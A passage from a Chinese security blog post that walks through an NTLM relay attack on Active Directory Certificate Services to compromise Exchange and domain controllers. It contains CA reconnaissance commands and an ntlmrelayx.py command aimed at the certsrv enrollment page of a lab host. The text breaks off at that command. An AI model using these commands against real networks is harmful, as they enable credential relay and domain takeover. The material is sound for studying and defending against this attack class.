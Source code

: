 > 原文链接: https://www.anquanke.com//post/id/250189 


# 全补丁域森林5秒沦陷？加密升级之信任雪崩


                                阅读量   
                                **23897**
                            
                        |
                        
                                                                                    



[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t017ee53a3fc6bb37d1.jpg)



> 域控？Exchange? Sharepoint? 个人PC? 个人域账号/邮箱？域森林？统统只要5秒打下。
[![](https://p4.ssl.qhimg.com/t01cc70741e48794cfe.jpg)](https://p4.ssl.qhimg.com/t01cc70741e48794cfe.jpg)
 

## 0x00 踩点和识别

域内定位CA机器的方法较多, 常见如下

```
certutil -config - -ping
```

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t0106c7b45a565e9cf1.jpg)

测试网络联通性

```
curl 192.168.44.150/certsrv/ -I
```

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t0145dd8a07d74f492e.jpg)

简单探测`AD CS`错误配置<br>[![](https://p5.ssl.qhimg.com/t01e291dd538d77cb00.jpg)](https://p5.ssl.qhimg.com/t01e291dd538d77cb00.jpg)



## 0x01 攻击Exchange流水账

本地监听和指定攻击目标 `dc2 192.168.44.150`

```
python ntlmrelayx.py  -t http://192.168.44.150/certsrv/certfnsh.asp -smb2support --adcs
```
